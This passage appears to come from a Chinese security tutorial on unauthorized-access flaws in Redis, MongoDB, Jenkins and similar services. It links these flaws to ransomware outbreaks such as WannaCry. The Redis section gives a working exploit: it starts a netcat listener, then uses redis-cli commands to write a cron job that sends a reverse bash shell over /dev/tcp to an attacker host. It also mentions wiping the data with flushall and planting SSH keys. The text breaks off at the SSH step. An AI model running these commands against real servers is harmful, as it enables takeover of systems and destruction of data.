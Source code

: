 原文 by [w2n1ck@安全脉搏](https://mp.weixin.qq.com/s/Q-an-kpdE7r8Q9bX2YNbTA)  

## 前言

今年5月，比特币勒索病毒 WannaCry 席卷全球，国内众多机构部门计算机系统瘫痪。根据之前应急响应的案例分析，以及一些安全报告统计，目前大部分的勒索病毒均利用未授权访问等通用漏洞进行植入、勒索，尤其是 Redis、MongoDB 等数据库的未授权访问漏洞尤其严重。  

## 0x01 介绍

未授权访问可以理解为需要安全配置或权限认证的地址、授权页面存在缺陷，导致其他用户可以直接访问，从而引发重要权限可被操作、数据库、网站目录等敏感信息泄露。  

目前主要存在未授权访问漏洞的有：NFS 服务，Samba 服务，LDAP，Rsync，FTP，GitLab，Jenkins，MongoDB，Redis，ZooKeeper，ElasticSearch，Memcache，CouchDB，Docker，Solr，Hadoop，Dubbo 等，本文主要介绍一些目前比较常用的一些服务的未授权访问，欢迎大家补充！  

## 0x02 Redis未授权访问

### 2.1 漏洞描述

Redis 因配置不当可以未授权访问。攻击者无需认证访问到内部数据，可导致敏感信息泄露，也可以恶意执行 flushall 来清空所有数据。如果 Redis 以 root 身份运行，可以给 root 账户写入 SSH 公钥文件，直接通过 SSH 登录受害服务器。  

### 2.2 漏洞利用

1、利用计划任务执行命令反弹shell  

在 redis 以 root 权限运行时可以写 crontab 来执行命令反弹shell  

先在自己的服务器上监听一个端口  

`nc -lvnp 4444 `  

然后执行命令:  
```
redis-cli -h 192.168.2.6
set x "\n* * * * * bash -i >& /dev/tcp/192.168.1.1/4444 0>&1\n"
config set dir /var/spool/cron/
config set dbfilename root
save
```
![](../pictures/notauthority1.png)  
2、写 ssh-keygen 公钥登录服务器  
